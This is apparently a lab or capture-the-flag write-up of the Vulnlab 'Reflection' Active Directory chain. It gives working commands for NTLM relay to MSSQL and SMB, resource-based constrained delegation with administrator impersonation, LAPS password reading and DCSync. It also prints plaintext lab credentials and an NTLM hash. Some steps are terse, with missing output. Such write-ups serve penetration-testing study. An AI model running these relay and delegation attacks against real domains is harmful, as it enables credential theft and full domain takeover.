# Reflection (chain) (medium)

## port scan

10.10.164.101 DC01.reflection.vl

10.10.164.102 MS01.reflection.vl

10.10.164.103 WS01.reflection.vl

```
Open 10.10.164.101:88
Open 10.10.164.101:135
Open 10.10.164.103:135
Open 10.10.164.102:135
Open 10.10.164.101:139
Open 10.10.164.101:389
Open 10.10.164.101:445
Open 10.10.164.103:445
Open 10.10.164.102:445
Open 10.10.164.101:464
Open 10.10.164.101:593
Open 10.10.164.101:636
Open 10.10.164.101:1433
Open 10.10.164.102:1433
Open 10.10.164.101:3268
Open 10.10.164.101:3269
Open 10.10.164.103:3389
Open 10.10.164.101:3389
Open 10.10.164.102:3389
Open 10.10.164.101:5985
Open 10.10.164.102:5985
Open 10.10.164.101:9389
Open 10.10.164.101:49664
Open 10.10.164.101:49667
Open 10.10.164.102:49669
Open 10.10.164.101:49671
Open 10.10.164.101:49674
Open 10.10.164.101:49675
Open 10.10.164.101:49692
Open 10.10.164.101:56499
Open 10.10.164.101:56515
```

## service enumeration


there have a custom smb share folder `staging`


there have a conf file


`web_staging:Washroom510` , so we have a cred. looks like sql cred


since MS01 open 1433 port (mssql)


there have a custom database called staging



the staging db have `users` table, we can select users table to get those cred. `dev01:Initial123`


both cred are not domain cred


the `xp_dirtree` tell us the username called `svc_web_staging`


## relay attack

the ntlm auth message are in packets of application protocols such as SMB,HTTP,MSSQL. ntlm auth are "application protocol-independent". That is called `cross-protocols LM/NTLM relay`


```bash
ntlmrelayx.py -tf ./target
```

`Authenticating against smb://10.10.164.101 as REFLECTION/SVC_WEB_STAGING SUCCEED` which mean we can relay that authentication to DC01.reflection.vl.

and there also have 1433 port (mssql) open on DC01.reflection.vl


so set target `mssql://10.10.164.101` and set query `SELECT name FROM master.dbo.sysdatabases` to show databases on dc01

```bash
impacket-ntlmrelayx -t mssql://10.10.164.101 -q 'SELECT name FROM master.dbo.sysdatabases;' -smb2support
```

there have a custom databases called `prod`


we can't access prod databases


after read this post https://trustedsec.com/blog/a-comprehensive-guide-on-relaying-anno-2022. i found we can use `-socks` to open a socks proxy access smb share

```bash
impacket-ntlmrelayx -t smb://10.10.164.101 -socks -smb2support
```




```bash
pc -f ~/tool/chisel.conf impacket-smbclient REFLECTION/SVC_WEB_STAGING@10.10.164.101
```



in `prod` share, we can found a cred



now we can use web_prod read prod databases on dc01

```bash
impacket-mssqlclient web_prod:Tribesman201@10.10.164.101
```


edit dnschef.ini to prepare bloodhound fetch domain information





## RBCD check

i will use https://github.com/kaluche/bloodhound-quickwin


since the machine account quota is `0`, which mean we can't create new evil machine account complate RBCD attack


## shadow credentials

we also have `shadow credentials` method



the keycredentials is empty, use pywhisker add new one


seems not work




## LASP 

the ms01 LAPS is enable


we can use pylaps to read random administrator password


i will use sharpdpi



another cred


## RBCD attack

we can use rbcd.py to add `msDS-AllowedToActOnBehalfOfOtherIdentity` attr to our control machine ms01

```
rbcd.py -delegate-from 'ms01$' -delegate-to 'ws01' -action 'write' 'reflection/Georgia.Price:DBl+5MPkpJg5id' -dc-ip dc01.reflection.vl
```


```
getST.py -spn 'cifs/ws01.reflection.vl' -impersonate 'administrator' 'reflection.vl/ms01$' -hashes :16f4293a0f659f99d7e5cd88de370c25 -dc-ip dc01.reflection.vl
```


i will use atexec get a beacon



## password reuse

`GARNER` string also use on DOM_RGARNER, since we have RHYS.GARNER password via impacket-secretsdump


the DOM_RGARNER user have DCSync, we can dump all information via secretsdump


done!


